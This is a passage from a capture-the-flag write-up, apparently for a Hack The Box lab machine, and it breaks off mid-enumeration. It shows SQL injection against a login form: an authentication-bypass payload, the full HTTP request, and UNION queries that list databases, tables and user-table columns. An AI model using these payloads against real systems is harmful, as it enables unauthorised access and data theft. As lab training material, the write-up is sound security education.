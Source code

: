 
#### SQLi

We will attempt an SQLi. On submitting an SQLi Payload `' or 1=1-- -`:

```http
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://goodgames.htb
Connection: keep-alive
Referer: http://goodgames.htb/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=' or 1=1-- -&password=test123
```

We get the response:

`Welcome admintest123`

We can see there are two users at least. `admin` and `test123`

We will try a union injection to get data from other table. Let's figure out the number of columns. 

Only after selecting 4 columns do we get a successful login:

`email=' union select 1,2,3,4-- -&password=test123`

Let's figure out all the database that exists:

`email=' union select 1,2,3,schema_name FROM INFORMATION_SCHEMA.SCHEMATA-- -&password=test123`

We get the response:

`Welcome information_schemamain`

Let's query main and figure out the tables that exist:

`email=' union select 1,2,3,TABLE_NAME from INFORMATION_SCHEMA.TABLES where table_schema='main'-- -&password=test123`

Response:

`Welcome blogblog_commentsuser`

blog, blog_comments, and user.

We can also figure out the number of columns:

`email=' union select 1,2,3,COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='user'-- -&password=test123`

Response:
